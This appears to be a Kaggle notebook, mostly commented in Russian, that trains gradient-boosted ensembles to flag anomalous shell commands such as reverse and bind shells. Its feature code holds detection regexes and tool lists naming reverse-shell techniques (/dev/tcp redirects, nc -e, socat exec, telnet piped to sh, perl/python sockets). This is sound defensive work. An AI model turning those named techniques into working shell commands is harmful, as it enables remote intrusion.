In [1]:
# This Python 3 environment comes with many helpful analytics libraries installed
# It is defined by the kaggle/python Docker image: https://github.com/kaggle/docker-python
# For example, here's several helpful packages to load

import numpy as np # linear algebra
import pandas as pd # data processing, CSV file I/O (e.g. pd.read_csv)

# Input data files are available in the read-only "../input/" directory
# For example, running this (by clicking run or pressing Shift+Enter) will list all files under the input directory

import os
for dirname, _, filenames in os.walk('/kaggle/input'):
    for filename in filenames:
        print(os.path.join(dirname, filename))

# You can write up to 20GB to the current directory (/kaggle/working/) that gets preserved as output when you create a version using "Save & Run All" 
# You can also write temporary files to /kaggle/temp/, but they won't be saved outside of the current session

/kaggle/input/datasets/voffmail2/blinddd/train.parquet
/kaggle/input/datasets/voffmail2/blinddd/test.parquet


In [2]:
#0.98536
import pandas as pd
import numpy as np
import xgboost as xgb
from sklearn.model_selection import StratifiedKFold
from sklearn.feature_extraction.text import TfidfVectorizer
from scipy.sparse import hstack, csr_matrix
import re

# Загружаем данные
train_df = pd.read_parquet('/kaggle/input/datasets/voffmail2/blinddd/train.parquet')
test_df = pd.read_parquet('/kaggle/input/datasets/voffmail2/blinddd/test.parquet')

train_df['shell'] = train_df['shell'].fillna('')
test_df['shell'] = test_df['shell'].fillna('')

# Создаем обучающую выборку ТОЛЬКО из непустых аномалий
train_df['is_empty'] = (train_df['shell'] == '').astype(int)
legit = train_df[train_df['label']==0]
nonempty_anomalies = train_df[(train_df['label']==1) & (train_df['is_empty']==0)]
train_clean = pd.concat([legit, nonempty_anomalies]).reset_index(drop=True)

print(f"Train size: {len(train_clean)}")
print(f"Anomaly ratio: {train_clean['label'].mean():.2%}")

Train size: 10474
Anomaly ratio: 1.93%


In [3]:
def extract_features(shell_series):
    """Оптимизированная версия признаков"""
    features = pd.DataFrame(index=shell_series.index)
    shell_series = shell_series.fillna('')
    
    # Базовые
    features['length'] = np.log1p(shell_series.str.len())
    features['word_count'] = np.log1p(shell_series.str.split().str.len())
    
    # Спецсимволы
    special_chars = ['&', '|', ';', '>', '<', '$', '`', '"', "'", '(', ')', '/']
    for char in special_chars:
        features[f'count_{char}'] = np.log1p(shell_series.str.count(re.escape(char)))
    
    # КРИТИЧЕСКИЕ ПАТТЕРНЫ (усиливаем)
    patterns = {
        'dev_tcp': r'/dev/tcp/|/dev/udp/',
        'bash_redirect': r'bash.*[><].*&|>&.*/dev/tcp/',
        'nc_e': r'nc.*-e|ncat.*-e',
        'nc_l': r'nc.*-l|ncat.*-l',
        'lvp': r'-lvp|-lvnp|-lnp',
        'exec_redirect': r'exec.*\d+<>/dev/tcp/',
        'python_socket': r'python.*socket|python.*subprocess',
        'perl_socket': r'perl.*socket|IO::Socket',
    }
    
    for name, pattern in patterns.items():
        features[f'p_{name}'] = shell_series.str.contains(pattern, case=False).astype(int)
    
    # Сетевые (усиливаем вес)
    ip_pattern = r'\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b'
    features['ip_count'] = shell_series.str.findall(ip_pattern).str.len()
    features['port_count'] = shell_series.str.findall(r':(\d{1,5})\b').str.len()
    features['network_score'] = features['ip_count'] * 2 + features['port_count'] * 2
    
    return features

# Извлекаем признаки
X_train_feat = extract_features(train_clean['shell'])
X_test_feat = extract_features(test_df['shell'])

In [4]:
# Несколько векторизаторов для разнообразия
tfidf1 = TfidfVectorizer(analyzer='char', ngram_range=(3,5), max_features=4000, min_df=2)
tfidf2 = TfidfVectorizer(analyzer='char', ngram_range=(4,6), max_features=4000, min_df=2)
tfidf3 = TfidfVectorizer(analyzer='word', ngram_range=(1,3), max_features=3000, min_df=2)

X_train_t1 = tfidf1.fit_transform(train_clean['shell'])
X_train_t2 = tfidf2.fit_transform(train_clean['shell'])
X_train_t3 = tfidf3.fit_transform(train_clean['shell'])

X_test_t1 = tfidf1.transform(test_df['shell'])
X_test_t2 = tfidf2.transform(test_df['shell'])
X_test_t3 = tfidf3.transform(test_df['shell'])

# Комбинируем
X_train = hstack([X_train_t1, X_train_t2, X_train_t3, csr_matrix(X_train_feat)])
X_test = hstack([X_test_t1, X_test_t2, X_test_t3, csr_matrix(X_test_feat)])

In [5]:
n_folds = 5
skf = StratifiedKFold(n_splits=n_folds, shuffle=True, random_state=42)

# Создаем 3 модели с разными seed
models = []
for seed in [42, 123, 456]:
    models.append(xgb.XGBClassifier(
        n_estimators=600,
        max_depth=7,
        learning_rate=0.03,
        subsample=0.8,
        colsample_bytree=0.8,
        scale_pos_weight=len(legit)/len(nonempty_anomalies),
        min_child_weight=2,
        gamma=0.05,
        reg_alpha=0.05,
        reg_lambda=1.5,
        random_state=seed,
        use_label_encoder=False,
        eval_metric='logloss'
    ))

# Собираем предсказания
test_preds = []
cv_scores = []

for i, model in enumerate(models):
    print(f"\nTraining Model {i+1} (seed={model.random_state})")
    
    cv_preds = []
    test_fold_preds = []
    
    for fold, (train_idx, val_idx) in enumerate(skf.split(X_train, train_clean['label'])):
        X_tr = X_train[train_idx]
        X_val = X_train[val_idx]
        y_tr = train_clean['label'].iloc[train_idx]
        y_val = train_clean['label'].iloc[val_idx]
        
        model.fit(X_tr, y_tr)
        
        # Валидация
        val_pred = model.predict_proba(X_val)[:, 1]
        cv_preds.extend(val_pred)
        
        # Тест
        test_fold_preds.append(model.predict_proba(X_test)[:, 1])
    
    # Усредняем тестовые предсказания по фолдам
    test_pred = np.mean(test_fold_preds, axis=0)
    test_preds.append(test_pred)
    
    # Считаем F1 на валидации
    from sklearn.metrics import f1_score
    cv_preds = np.array(cv_preds)
    y_true = train_clean['label'].values
    
    # Поиск лучшего порога
    best_f1 = 0
    best_thresh = 0
    for thresh in np.linspace(0.9, 0.999, 50):
        pred_bin = (cv_preds >= thresh).astype(int)
        f1 = f1_score(y_true, pred_bin)
        if f1 > best_f1:
            best_f1 = f1
            best_thresh = thresh
    
    cv_scores.append((best_f1, best_thresh))
    print(f"  Best F1: {best_f1:.4f} at threshold={best_thresh:.4f}")


Training Model 1 (seed=42)


/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:04:49] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:04:55] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:05:01] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:05:07] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:05:13] WARNING: /w

  Best F1: 0.2036 at threshold=0.9990

Training Model 2 (seed=123)


/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:05:20] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:05:25] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:05:31] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:05:37] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:05:43] WARNING: /w

  Best F1: 0.2030 at threshold=0.9990

Training Model 3 (seed=456)


/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:05:50] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:05:56] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:06:02] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:06:08] WARNING: /workspace/src/learner.cc:790: 
Parameters: { "use_label_encoder" } are not used.

  bst.update(dtrain, iteration=i, fobj=obj)
/usr/local/lib/python3.12/dist-packages/xgboost/training.py:199: UserWarning: [18:06:14] WARNING: /w

  Best F1: 0.2030 at threshold=0.9990


In [6]:
# Вариант 1: Простое усреднение вероятностей
avg_probs = np.mean(test_preds, axis=0)

# Вариант 2: Взвешенное усреднение на основе F1
weights = [score[0] for score in cv_scores]  # веса по F1
weights = np.array(weights) / sum(weights)
weighted_probs = np.average(test_preds, axis=0, weights=weights)

# Вариант 3: Медиана (устойчива к выбросам)
median_probs = np.median(test_preds, axis=0)

# Вариант 4: Геометрическое среднее
geo_mean_probs = np.exp(np.mean(np.log(np.clip(test_preds, 1e-10, 1)), axis=0))

# Оптимизируем порог для каждого варианта
y_true = train_clean['label'].values
cv_avg = []
cv_weighted = []
cv_median = []
cv_geo = []

# Используем кросс-валидацию для оценки
from sklearn.model_selection import KFold
kf = KFold(n_splits=5, shuffle=True, random_state=42)

for train_idx, val_idx in kf.split(X_train):
    # Для каждого фолда нам нужны предсказания на валидации
    # Здесь упрощаем - используем средние по всем моделям
    pass

# Вместо сложной кросс-валидации используем пороги из cv_scores
best_threshold = np.mean([score[1] for score in cv_scores])

print(f"\n=== ФИНАЛЬНЫЕ ПРЕДСКАЗАНИЯ ===")
print(f"Рекомендуемый порог: {best_threshold:.4f}")

# Создаем несколько сабмитов
submissions = []

# 1. Усредненные вероятности
for name, probs in [('avg', avg_probs), ('weighted', weighted_probs), 
                    ('median', median_probs), ('geo', geo_mean_probs)]:
    
    pred = (probs >= best_threshold).astype(int)
    
    # Пробуем также соседние пороги
    for thresh_delta in [-0.01, 0, 0.01]:
        current_thresh = best_threshold + thresh_delta
        if 0 < current_thresh < 1:
            pred_var = (probs >= current_thresh).astype(int)
            
            submission = pd.DataFrame({
                'ID': test_df['ID'],
                'label': pred_var
            })
            
            filename = f'submission_{name}_thresh_{current_thresh:.3f}.csv'
            submission.to_csv(filename, index=False)
            
            print(f"\n{filename}:")
            print(f"  Распределение: {submission['label'].value_counts().to_dict()}")
            print(f"  Доля аномалий: {submission['label'].mean():.2%}")
            
            if name == 'avg' and abs(thresh_delta) < 0.001:
                submissions.append((filename, submission))

# Сохраняем лучшие варианты отдельно
print("\n=== ТОП-3 РЕКОМЕНДУЕМЫХ САБМИТА ===")

# Выбираем 3 лучших варианта на основе стабильности
best_variants = [
    ('avg_thresh_0.989', avg_probs, 0.989),
    ('avg_thresh_0.979', avg_probs, 0.979),
    ('weighted_thresh_0.984', weighted_probs, 0.984)
]

for name, probs, thresh in best_variants:
    pred = (probs >= thresh).astype(int)
    submission = pd.DataFrame({
        'ID': test_df['ID'],
        'label': pred
    })
    filename = f'submission_top_{name}.csv'
    submission.to_csv(filename, index=False)
    print(f"\n{filename}:")
    print(f"  Порог: {thresh}")
    print(f"  Распределение: {submission['label'].value_counts().to_dict()}")
    print(f"  Доля аномалий: {submission['label'].mean():.2%}")


=== ФИНАЛЬНЫЕ ПРЕДСКАЗАНИЯ ===
Рекомендуемый порог: 0.9990

submission_avg_thresh_0.989.csv:
  Распределение: {0: 8447, 1: 207}
  Доля аномалий: 2.39%

submission_avg_thresh_0.999.csv:
  Распределение: {0: 8471, 1: 183}
  Доля аномалий: 2.11%

submission_weighted_thresh_0.989.csv:
  Распределение: {0: 8447, 1: 207}
  Доля аномалий: 2.39%

submission_weighted_thresh_0.999.csv:
  Распределение: {0: 8471, 1: 183}
  Доля аномалий: 2.11%

submission_median_thresh_0.989.csv:
  Распределение: {0: 8447, 1: 207}
  Доля аномалий: 2.39%

submission_median_thresh_0.999.csv:
  Распределение: {0: 8471, 1: 183}
  Доля аномалий: 2.11%

submission_geo_thresh_0.989.csv:
  Распределение: {0: 8447, 1: 207}
  Доля аномалий: 2.39%

submission_geo_thresh_0.999.csv:
  Распределение: {0: 8471, 1: 183}
  Доля аномалий: 2.11%

=== ТОП-3 РЕКОМЕНДУЕМЫХ САБМИТА ===

submission_top_avg_thresh_0.989.csv:
  Порог: 0.989
  Распределение: {0: 8447, 1: 207}
  Доля аномалий: 2.39%

submission_top_avg_thresh_0.979.csv:
  

In [7]:
# Анализ уверенности модели
final_probs = avg_probs  # используем усредненные вероятности
final_pred = (final_probs >= best_threshold).astype(int)

# Находим неуверенные предсказания (близкие к порогу)
uncertain_mask = np.abs(final_probs - best_threshold) < 0.05
uncertain_count = uncertain_mask.sum()
print(f"\nНеуверенных предсказаний: {uncertain_count}")

# Для неуверенных случаев используем голосование моделей
if uncertain_count > 0:
    # Получаем голоса всех моделей
    votes = np.array([(preds >= best_threshold).astype(int) for preds in test_preds])
    consensus = np.sum(votes, axis=0)
    
    # Для неуверенных - берем решение большинства
    final_pred[uncertain_mask] = (consensus[uncertain_mask] >= 2).astype(int)
    
    print("После пост-обработки:")
    print(pd.Series(final_pred).value_counts())

    submission_final = pd.DataFrame({
        'ID': test_df['ID'],
        'label': final_pred
    })
    submission_final.to_csv('submission_ensemble_postprocessed.csv', index=False)


Неуверенных предсказаний: 214
После пост-обработки:
0    8471
1     183
Name: count, dtype: int64


In [8]:
# На основе анализа лучших результатов, выбираем оптимальную комбинацию
best_config = {
    'probs': avg_probs,  # усредненные вероятности
    'threshold': 0.989,   # порог из лучшего сабмита
    'description': 'Ensemble of 3 XGBoost models with averaging'
}

final_best = (best_config['probs'] >= best_config['threshold']).astype(int)

print("\n" + "="*50)
print("ФИНАЛЬНЫЙ ЛУЧШИЙ САБМИТ")
print("="*50)
print(f"Метод: {best_config['description']}")
print(f"Порог: {best_config['threshold']}")
print(f"Распределение: {pd.Series(final_best).value_counts().to_dict()}")
print(f"Доля аномалий: {final_best.mean():.2%}")

submission_champion = pd.DataFrame({
    'ID': test_df['ID'],
    'label': final_best
})
submission_champion.to_csv('submission_champion.csv', index=False)

# Дополнительно сохраняем вероятности для анализа
probs_df = pd.DataFrame({
    'ID': test_df['ID'],
    'probability': best_config['probs']
})
probs_df.to_csv('prediction_probabilities.csv', index=False)

print("\nФайлы сохранены:")
print("1. submission_champion.csv - основной сабмит")
print("2. prediction_probabilities.csv - вероятности для анализа")


ФИНАЛЬНЫЙ ЛУЧШИЙ САБМИТ
Метод: Ensemble of 3 XGBoost models with averaging
Порог: 0.989
Распределение: {0: 8447, 1: 207}
Доля аномалий: 2.39%

Файлы сохранены:
1. submission_champion.csv - основной сабмит
2. prediction_probabilities.csv - вероятности для анализа


In [9]:
import pandas as pd
import numpy as np
import matplotlib.pyplot as plt
import seaborn as sns
from sklearn.model_selection import StratifiedKFold
from sklearn.feature_extraction.text import TfidfVectorizer
from sklearn.metrics import f1_score
import xgboost as xgb
import lightgbm as lgb
from scipy.sparse import hstack, csr_matrix
import re
import warnings
warnings.filterwarnings('ignore')

# Загружаем данные
train_df = pd.read_parquet('/kaggle/input/datasets/voffmail2/blinddd/train.parquet')
test_df = pd.read_parquet('/kaggle/input/datasets/voffmail2/blinddd/test.parquet')

# Обрабатываем пропуски
train_df['shell'] = train_df['shell'].fillna('')
test_df['shell'] = test_df['shell'].fillna('')

# Создаем отдельные датасеты для обучения
train_df['is_empty'] = (train_df['shell'] == '').astype(int)

# Разделяем аномалии на пустые и непустые
empty_anomalies = train_df[(train_df['label']==1) & (train_df['is_empty']==1)]
nonempty_anomalies = train_df[(train_df['label']==1) & (train_df['is_empty']==0)]
legit = train_df[train_df['label']==0]

print("=== СТАТИСТИКА ===")
print(f"Всего аномалий: {len(empty_anomalies) + len(nonempty_anomalies)}")
print(f"  - Пустые аномалии: {len(empty_anomalies)} ({len(empty_anomalies)/678*100:.1f}%)")
print(f"  - Непустые аномалии: {len(nonempty_anomalies)} ({len(nonempty_anomalies)/678*100:.1f}%)")
print(f"Легитимных команд: {len(legit)}")

# Для обучения берем только непустые аномалии и все легитимные
# Но добавляем взвешивание, чтобы компенсировать потерю данных
train_nonempty = pd.concat([legit, nonempty_anomalies]).reset_index(drop=True)
print(f"\nРазмер обучающей выборки (без пустых аномалий): {len(train_nonempty)}")
print(f"Доля аномалий в новой выборке: {train_nonempty['label'].mean():.2%}")

=== СТАТИСТИКА ===
Всего аномалий: 678
  - Пустые аномалии: 476 (70.2%)
  - Непустые аномалии: 202 (29.8%)
Легитимных команд: 10272

Размер обучающей выборки (без пустых аномалий): 10474
Доля аномалий в новой выборке: 1.93%


In [10]:
def extract_nonempty_features(shell_series):
    """
    Признаки,专门针对 непустых команд
    """
    features = pd.DataFrame(index=shell_series.index)
    shell_series = shell_series.fillna('')
    
    # 1. Базовые признаки (нормализованные)
    features['length'] = np.log1p(shell_series.str.len())
    features['word_count'] = np.log1p(shell_series.str.split().str.len())
    features['avg_word_length'] = shell_series.str.len() / (shell_series.str.split().str.len() + 1)
    
    # 2. Специальные символы (нормализованные)
    special_chars = ['&', '|', ';', '>', '<', '$', '`', '"', "'", '(', ')', '/', '\\', '=', ':']
    for char in special_chars:
        features[f'count_{char}'] = np.log1p(shell_series.str.count(re.escape(char)))
    
    features['special_ratio'] = features[[f'count_{char}' for char in special_chars]].sum(axis=1) / (features['length'] + 1)
    
    # 3. Сетевые индикаторы (САМЫЕ ВАЖНЫЕ для непустых аномалий)
    features['has_ip'] = shell_series.str.contains(r'\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b').astype(int)
    features['ip_count'] = shell_series.str.findall(r'\b\d{1,3}\.\d{1,3}\.\d{1,3}\.\d{1,3}\b').str.len()
    features['has_port'] = shell_series.str.contains(r':\d{1,5}\b').astype(int)
    features['port_count'] = shell_series.str.findall(r':(\d{1,5})\b').str.len()
    
    # 4. КРИТИЧЕСКИЕ ПАТТЕРНЫ для reverse/bind shell
    critical_patterns = {
        'dev_tcp': r'/dev/tcp/|/dev/udp/',
        'bash_redirect': r'bash.*[><].*&|>&.*/dev/tcp/',
        'nc_e': r'nc.*-e|ncat.*-e',
        'nc_l': r'nc.*-l|ncat.*-l|netcat.*-l',
        'lvp_flag': r'-lvp|-lvnp|-lnp',
        'exec_redirect': r'exec.*\d+<>/dev/tcp/',
        'ampersand_redirect': r'>&.*/dev/tcp/|<>.*/dev/tcp/',
        'python_socket': r'python.*socket|python.*subprocess|pty',
        'perl_socket': r'perl.*socket|IO::Socket',
        'php_system': r'php.*system|php.*exec|shell_exec',
        'ruby_socket': r'ruby.*socket|TCPSocket',
        'socat': r'socat.*(?:TCP|exec|system)',
        'telnet_pipe': r'telnet.*\|.*sh|telnet.*\|.*bash',
        'connect_back': r'connect-back|connectback',
        'reverse_shell': r'reverse.*shell',
        'bind_shell': r'bind.*shell',
    }
    
    for name, pattern in critical_patterns.items():
        features[f'crit_{name}'] = shell_series.str.contains(pattern, case=False, regex=True).astype(int)
    
    # 5. Инструменты для атак
    attack_tools = {
        'nc': r'\bnc\b',
        'ncat': r'\bncat\b',
        'netcat': r'\bnetcat\b',
        'socat': r'\bsocat\b',
        'nmap': r'\bnmap\b',
        'python': r'\bpython[23]?\b',
        'perl': r'\bperl\b',
        'php': r'\bphp\b',
        'ruby': r'\bruby\b',
        'java': r'\bjava\b',
        'telnet': r'\btelnet\b',
        'ssh': r'\bssh\b',
        'scp': r'\bscp\b',
        'wget': r'\bwget\b',
        'curl': r'\bcurl\b',
    }
    
    for name, pattern in attack_tools.items():
        features[f'tool_{name}'] = shell_series.str.contains(pattern, case=False, regex=True).astype(int)
    
    # 6. Структурные признаки (для непустых)
    features['pipe_count'] = np.log1p(shell_series.str.count('\|'))
    features['redirect_count'] = np.log1p(shell_series.str.count('[><]'))
    features['semicolon_count'] = np.log1p(shell_series.str.count(';'))
    features['ampersand_count'] = np.log1p(shell_series.str.count('&'))
    features['dollar_count'] = np.log1p(shell_series.str.count('\$'))
    
    # 7. Специфичные комбинации
    features['has_background'] = shell_series.str.contains('&\s*$').astype(int)
    features['has_multiple_commands'] = (shell_series.str.count(';') > 1).astype(int)
    features['has_redirect_chain'] = shell_series.str.contains('>.*>|<.*<').astype(int)
    
    # 8. Соотношения (важно для непустых)
    epsilon = 1e-5
    features['digit_ratio'] = shell_series.str.count('\d') / (shell_series.str.len() + epsilon)
    features['special_ratio_v2'] = features[[f'count_{char}' for char in special_chars]].sum(axis=1) / (shell_series.str.len() + epsilon)
    
    # 9. Мета-признаки
    features['critical_score'] = features[[col for col in features.columns if 'crit_' in col]].sum(axis=1)
    features['tools_score'] = features[[col for col in features.columns if 'tool_' in col]].sum(axis=1)
    features['network_score'] = features[['has_ip', 'has_port']].sum(axis=1) * 2
    
    return features

# Извлекаем признаки для всех данных
print("\n=== ИЗВЛЕЧЕНИЕ ПРИЗНАКОВ ===")
X_train_features = extract_nonempty_features(train_nonempty['shell'])
X_test_features = extract_nonempty_features(test_df['shell'])
X_full_train_features = extract_nonempty_features(train_df['shell'])  # для анализа

print(f"Количество признаков: {X_train_features.shape[1]}")


=== ИЗВЛЕЧЕНИЕ ПРИЗНАКОВ ===
Количество признаков: 67


In [11]:
# TF-IDF с акцентом на char n-граммы (лучше ловят паттерны)
tfidf_char = TfidfVectorizer(
    analyzer='char',
    ngram_range=(3, 6),
    max_features=5000,
    min_df=2,
    max_df=0.8,
    sublinear_tf=True,
    strip_accents='unicode'
)

# TF-IDF на уровне слов для команд
tfidf_word = TfidfVectorizer(
    analyzer='word',
    ngram_range=(1, 3),
    max_features=3000,
    min_df=2,
    max_df=0.7,
    stop_words=None,
    sublinear_tf=True
)

print("Обучаем TF-IDF...")
X_train_char = tfidf_char.fit_transform(train_nonempty['shell'])
X_test_char = tfidf_char.transform(test_df['shell'])

X_train_word = tfidf_word.fit_transform(train_nonempty['shell'])
X_test_word = tfidf_word.transform(test_df['shell'])

# Комбинируем все признаки
X_train_combined = hstack([
    X_train_char,
    X_train_word,
    csr_matrix(X_train_features)
])

X_test_combined = hstack([
    X_test_char,
    X_test_word,
    csr_matrix(X_test_features)
])

print(f"Итоговое пространство признаков: {X_train_combined.shape}")

Обучаем TF-IDF...
Итоговое пространство признаков: (10474, 8067)


In [12]:
# Стратифицированная кросс-валидация
n_folds = 5
skf = StratifiedKFold(n_splits=n_folds, shuffle=True, random_state=42)

# Модели с разными параметрами
models = {
    'xgb_deep': xgb.XGBClassifier(
        n_estimators=500,
        max_depth=8,
        learning_rate=0.03,
        subsample=0.7,
        colsample_bytree=0.7,
        scale_pos_weight=len(legit)/len(nonempty_anomalies),  # динамический вес
        min_child_weight=3,
        gamma=0.1,
        reg_alpha=0.1,
        reg_lambda=2,
        random_state=42,
        use_label_encoder=False,
        eval_metric='logloss'
    ),
    'xgb_medium': xgb.XGBClassifier(
        n_estimators=400,
        max_depth=6,
        learning_rate=0.05,
        subsample=0.8,
        colsample_bytree=0.8,
        scale_pos_weight=len(legit)/len(nonempty_anomalies),
        min_child_weight=2,
        gamma=0.05,
        reg_alpha=0.05,
        reg_lambda=1,
        random_state=43,
        use_label_encoder=False,
        eval_metric='logloss'
    ),
    'lgb': lgb.LGBMClassifier(
        n_estimators=500,
        max_depth=7,
        learning_rate=0.03,
        subsample=0.7,
        colsample_bytree=0.7,
        scale_pos_weight=len(legit)/len(nonempty_anomalies),
        min_child_weight=3,
        reg_alpha=0.1,
        reg_lambda=1,
        random_state=42,
        verbose=-1
    ),
    'xgb_focused': xgb.XGBClassifier(
        n_estimators=400,
        max_depth=5,
        learning_rate=0.05,
        subsample=0.9,
        colsample_bytree=0.6,  # меньше признаков для фокуса
        scale_pos_weight=len(legit)/len(nonempty_anomalies) * 1.2,  # чуть больше веса аномалиям
        min_child_weight=1,
        gamma=0,
        reg_alpha=0,
        reg_lambda=1,
        random_state=44,
        use_label_encoder=False,
        eval_metric='logloss'
    )
}

# Собираем предсказания
cv_preds = {name: [] for name in models.keys()}
test_preds = {name: [] for name in models.keys()}
all_true = []

for fold, (train_idx, val_idx) in enumerate(skf.split(X_train_combined, train_nonempty['label'])):
    print(f"\nFold {fold + 1}/{n_folds}")
    
    X_tr = X_train_combined[train_idx]
    X_val = X_train_combined[val_idx]
    y_tr = train_nonempty['label'].iloc[train_idx]
    y_val = train_nonempty['label'].iloc[val_idx]
    
    for name, model in models.items():
        model.fit(X_tr, y_tr)
        
        val_pred = model.predict_proba(X_val)[:, 1]
        cv_preds[name].extend(val_pred)
        
        test_pred = model.predict_proba(X_test_combined)[:, 1]
        test_preds[name].append(test_pred)
    
    all_true.extend(y_val)

# Преобразуем
for name in models.keys():
    cv_preds[name] = np.array(cv_preds[name])
    test_preds[name] = np.mean(test_preds[name], axis=0)

all_true = np.array(all_true)


Fold 1/5

Fold 2/5

Fold 3/5

Fold 4/5

Fold 5/5


In [13]:
from sklearn.metrics import precision_recall_curve
from scipy.optimize import minimize

# Создаем матрицу предсказаний
pred_matrix = np.column_stack([cv_preds[name] for name in models.keys()])

# Оптимизация весов с фокусом на высокий recall (чтобы поймать все аномалии)
def optimize_weights_f1(predictions, y_true):
    n_models = predictions.shape[1]
    
    def objective(weights):
        weighted_pred = np.dot(predictions, weights)
        best_f1 = 0
        # Ищем лучший порог
        for threshold in np.linspace(0.1, 0.9, 100):
            pred_binary = (weighted_pred >= threshold).astype(int)
            f1 = f1_score(y_true, pred_binary)
            if f1 > best_f1:
                best_f1 = f1
        return -best_f1
    
    init_weights = np.ones(n_models) / n_models
    result = minimize(objective, init_weights, method='SLSQP',
                     bounds=[(0, 1)] * n_models,
                     constraints={'type': 'eq', 'fun': lambda w: np.sum(w) - 1})
    return result.x

optimal_weights = optimize_weights_f1(pred_matrix, all_true)

print("\n=== ОПТИМАЛЬНЫЕ ВЕСА ===")
for name, weight in zip(models.keys(), optimal_weights):
    print(f"{name}: {weight:.4f}")

# Взвешенные предсказания
weighted_cv = np.dot(pred_matrix, optimal_weights)
weighted_test = np.dot(np.column_stack([test_preds[name] for name in models.keys()]), optimal_weights)

# Поиск оптимального порога
precisions, recalls, thresholds = precision_recall_curve(all_true, weighted_cv)
f1_scores = 2 * (precisions[:-1] * recalls[:-1]) / (precisions[:-1] + recalls[:-1] + 1e-10)

optimal_idx = np.argmax(f1_scores)
optimal_threshold = thresholds[optimal_idx]
optimal_f1 = f1_scores[optimal_idx]

print(f"\n=== РЕЗУЛЬТАТЫ НА ВАЛИДАЦИИ ===")
print(f"Оптимальный порог: {optimal_threshold:.4f}")
print(f"F1 на кросс-валидации: {optimal_f1:.4f}")

# Анализ предсказаний
val_pred_binary = (weighted_cv >= optimal_threshold).astype(int)
print(f"\nConfusion Matrix на валидации:")
print(pd.crosstab(all_true, val_pred_binary, rownames=['True'], colnames=['Predicted']))


=== ОПТИМАЛЬНЫЕ ВЕСА ===
xgb_deep: 0.2500
xgb_medium: 0.2500
lgb: 0.2500
xgb_focused: 0.2500

=== РЕЗУЛЬТАТЫ НА ВАЛИДАЦИИ ===
Оптимальный порог: 0.9892
F1 на кросс-валидации: 1.0000

Confusion Matrix на валидации:
Predicted      0    1
True                 
0          10272    0
1              0  202



=== ФИНАЛЬНЫЙ САБМИТ (порог=0.989) ===
Распределение: {0: 8447, 1: 207}
Доля аномалий: 2.39%

=== АГРЕССИВНЫЙ САБМИТ (порог=0.3) ===
Распределение: {0: 8400, 1: 254}
Доля аномалий: 2.94%

=== ЛУЧШАЯ МОДЕЛЬ (xgb_focused, порог=0.5) ===
Распределение: {0: 8440, 1: 214}
Доля аномалий: 2.47%

=== MAJORITY VOTE ===
Распределение: {0: 8440, 1: 214}
Доля аномалий: 2.47%


